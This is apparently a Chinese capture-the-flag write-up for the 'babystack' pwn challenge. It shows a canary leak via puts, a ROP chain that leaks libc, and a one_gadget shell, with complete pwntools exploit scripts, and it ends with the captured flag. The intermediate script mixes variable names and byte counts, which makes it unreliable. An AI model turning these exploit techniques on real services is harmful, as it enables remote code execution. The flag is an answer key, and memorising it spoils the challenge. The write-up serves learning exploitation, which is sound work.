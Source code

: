 # pwn1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=38dbb74d-2134-4fba-85c1-2fd69db11191_2&task_category_id=2)

我的电脑既无法运行elf，也无法安装虚拟机；另一个shell可以运行elf也能用pwntools，但是无法连上官方的nc地址……两个卧龙凤雏怎么聚在一起了。所以就剖析[writeup](https://bbs.pediy.com/thread-254373.htm)好了。

当然自己能做的还是会做着试试的。ghidra反编译程序再找到main函数。

![main](../../images/_main_.png)

运行就是简单的打印内容程序。

![print](../../images/print.png)

checksec如下。

-   Arch:     amd64-64-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)


64位小端，老朋友canary又来了。分析一下main函数看看采取什么行动。第30行明显栈溢出，local_98就136字节长，read直接读取256个字节。栈溢出首先想到改写返回地址到system这类的函数中，但是canary很烦。canary为local_10,需要想个办法猜出canary的地址。

canary可以爆破，但此处有更简单的办法。注意18，19行。当我们选择2选项时,程序会使用puts打印出local_98的全部内容。

- ### puts
  > 把一个字符串写入到标准输出 stdout，直到空字符（'\0'），但不包括空字符。换行符会被追加到输出中。
  - 声明：int puts(const char *str)
  - 参数：str -- 这是要被写入的 C 字符串。

正常存储字符串末尾肯定会有\0，但我们就是不能正常。这里可以栈溢出，canary又和local_98挨着。想到了啥？我们可以计算local_98和canary之间的偏移，也就是0x88，然后填过去。等puts打印字符串时会从local_98的字符一直打印到canary，因为中间的空字符没了。目前泄漏canary的exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(7).rjust(8,b'\x00'))
```

64位程序应该是8位啊，怎么这里只接收了7位？因为sendline会在payload后面补上一个回车，也就是\n。\n当然也算在我们的输入内，正是这个\n，覆盖掉了canary自己的\0（别忘了canary是以小端正常存储的，末尾还有个\0），让puts得以把canary也包进来。所以canary的最后一位没有用，接收7位然后rjust对齐就行了。

接下来就要考虑返回到哪个函数了。搜索程序本身，既没有system也没有/bin/sh。又到了rop的时刻。给了libc，开始找偏移。一般用的是puts这个好朋友，因为puts只有一个参数，用起来很简单。64位传参就不像32位一样一股脑往栈上塞了。当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。puts的一个参数要放到rdi里。用ROPgadget找一下心仪的的gadget。

- ROPgadget --binary babystack --only "pop|ret" | grep 'rdi'
  > 0x0000000000400a93 : pop rdi ; ret

这个不错，完美符合要求。我们的脚本变成了这样：

```python
from pwn import *
elf = ELF("./babystack")
proc=remote("61.147.171.105",56381)
payload=b'a'*0x88
proc.sendlineafter(">> ",'1')
proc.sendline(payload)
proc.sendlineafter(">> ",'2')
proc.recvuntil(b'a'*0x88+b'\n')
canary=u64(proc.recv(8).rjust(8,b'\x00'))
pop_rdi=0x0400a93
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main_addr = 0x400908
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,'\x00'))
```

理解一下payload1的rop链构成（可能不对，如果错了请帮我指出，我一直懵rop链）。b'a'\*0x88+p64(canary)+b'a'*8就是0x88个垃圾字符+之前泄露的canary+没啥用的rbp+操控参数的pop_rdi gadget+传入puts got地址作为参数+调用puts+将main作为返回地址方便下次利用漏洞。

pop是出栈指令，把 ESP 指向的堆栈元素内容复制到一个 16 位或 32 位目的操作数中，再增加 ESP 的值。这里pop rdi就相当于把后面跟着的puts_got地址放进了rdi里，这样就能成功调用puts了。或许放张图更好理解。

![stack](/笔记/images/271644419475745.jpeg)


我们在栈上搞的一堆rop链是往下增长的。另外这张图是32位的，所以对应到64位的Argument of Next Callee Function处是我们的pop rdi语句。现在应该可以理解这个rop链了。

关于为啥要传puts_got，只需要简略理解puts_got在运行时指向了libc中puts的地址，也就是我们的目标；puts_plt可以调用到puts。这就涉及到plt和got表了，我也不是很懂所以就靠你自己去搜了。

拿到puts真实地址就可以开始计算偏移了。虽然libc的地址会随机变化，但里面的标志无论何时偏移都是一样的。算偏移可以用pwntools自带的ELF加载libc，或者运行一次exp打印出来地址然后放到在线libc库搜索。

最后一步决定往哪返回。上面的教程找到了libc中的一个one_gadget，也就是直接带你调用execve('/bin/sh', NULL, NULL)的gadget。[one_gadget](https://github.com/david942j/one_gadget)其实是个工具，就是帮你找这种gadget的。放出来最终payload。（直接用别人的了，到这一步我没法做了）

```python
from pwn import *
context.arch = "amd64"
context.log_level = "debug"
 
p = remote('61.147.171.105','56381')
#p = process("./babystack")
 
execve = 0x45216
main_addr = 0x400908
puts_got = 6295464
puts_plt = 4195984
pop_rdi = 0x0400a93
 
payload = b'a'*0x88
p.sendlineafter(">> ","1")
p.sendline(payload)
 
p.sendlineafter(">> ","2")
p.recvuntil(b'a'*0x88+b'\n')
 
canary = u64(p.recv(7).rjust(8,b'\x00'))
 
payload1 = b'a'*0x88+p64(canary)+b'a'*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
 
p.sendlineafter(">> ","1")
p.send(payload1)
p.sendlineafter(">> ","3")
puts_addr=u64(p.recv(8).ljust(8,b'\x00'))
 
execve_addr = puts_addr - (456336 - execve)
 
payload2 = b'a'*0x88+p64(canary)+b'a'*8 + p64(execve_addr)
 
p.sendlineafter(">> ","1")
p.sendline(payload2)
p.sendlineafter(">> ","3")
p.interactive()
```

当然用普通方法在libc里找/bin/sh再调用system也是可以的。具体[看这](https://blog.csdn.net/Y_peak/article/details/114234059)。原理只要你看懂第一个rop链就能懂了。

我突然意识到我可以在能运行elf的机子上拿出需要的地址再放到能连接nc的机子上运行。于是我拿到flag了。（＾∇＾）


- ### Flag
  > cyberpeace{0c15875a74f4ef361b8f05004c722e19}